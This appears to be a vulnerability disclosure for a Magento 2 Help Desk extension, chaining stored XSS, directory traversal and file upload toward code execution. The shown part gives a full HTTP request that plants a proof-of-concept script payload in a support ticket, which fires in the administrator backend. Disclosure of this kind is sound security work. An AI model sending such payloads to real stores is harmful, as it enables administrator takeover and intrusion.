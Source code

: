

# XSS to RCE via a Magento Help Desk extension

The Mangento 2 Help Desk extension from Wyomind [1,2] up to and including version 1.3.6 is vulnerable to stored XSS, directory traversal and unrestricted upload of a dangerous file type. These vulnerabilites combined could lead to code execution.

This was tested with default settings on Ubuntu 18.04-20.04, latest Apache, PHP 7.2 and Magento 2.4.

## Details

A XSS payload can be sent via a ticket message from the front-end in the 'Support - My tickets' section. 
The payload is triggered when an administrator views the ticket in the Magento 2 backend. The following request enable
the delivery of the XSS payload:

```
POST /helpdesk/customer/ticket_save/ HTTP/1.1
Host: <redacted>
Content-Type: multipart/form-data; boundary=---------------------------243970849510445067673127196635
Content-Length: 683
Origin: https://<redacted>
Connection: close
Referer: https://<redacted>/helpdesk/customer/ticket_view/
Cookie: <redacted>
Upgrade-Insecure-Requests: 1

-----------------------------243970849510445067673127196635
Content-Disposition: form-data; name="form_key"

<redacted>
-----------------------------243970849510445067673127196635
Content-Disposition: form-data; name="object"

Hello
-----------------------------243970849510445067673127196635
Content-Disposition: form-data; name="message_cc"


-----------------------------243970849510445067673127196635
Content-Disposition: form-data; name="content"

<p><script>alert(1)</script></p>
-----------------------------243970849510445067673127196635
Content-Disposition: form-data; name="hideit"


-----------------------------243970849510445067673127196635--
```
